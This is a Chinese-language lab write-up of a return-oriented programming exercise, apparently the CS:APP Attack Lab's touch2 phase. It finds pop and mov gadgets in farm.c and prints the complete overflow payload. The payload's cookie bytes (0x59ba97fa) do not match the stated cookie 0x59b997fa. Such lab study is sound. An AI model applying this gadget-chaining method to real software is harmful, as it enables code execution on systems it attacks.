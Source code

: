 也就是先把`cookie（0x59b997fa）`放入rdi 再跳到`touch2（0x4017ec)`

看看 farm.c提供了我们什么

1. 可能隐藏的有用代码
2. 对eax的 各种写入
3. 对(rdi)的各种写入

所以 要把`rdi`写入值 我们找` 59 `都找不到 所以直接写是不行了

再看看提供的指令表

1. 寄存器到寄存器
2. 栈到寄存器
3. 与/或/cmp/test

现在能想到的办法也就是 `栈->中间寄存器->di` 或者 `栈->di`

先把farm以外的删除掉 搜索 ` 5[8-f] ` 也就是所有可能的pop指令 **[vim正则大法好]** 找到了4处

但能用的只有两处(`nop` 的指令是 `90`)

```
4019a7: 8d 87 51 73 58 90
4019ad: c3
和
4019ca: b8 29 58 90 c3
```

这两处都是`pop`到`rax` (指令`58`)

所以 我们构造栈

```
touch2地址
rax->rdi 的指令地址
cookie
popq rax的指令地址
```

其中`rax->rdi`可以用的有

```
4019a0: 8d 87 48 89 c7 c3
和
4019c3: c7 07 48 89 c7 90
4019c9: c3
```

所以有2*2=4种答案哦
选择其中一种构造

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 ba 59 00 00 00 00
a3 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
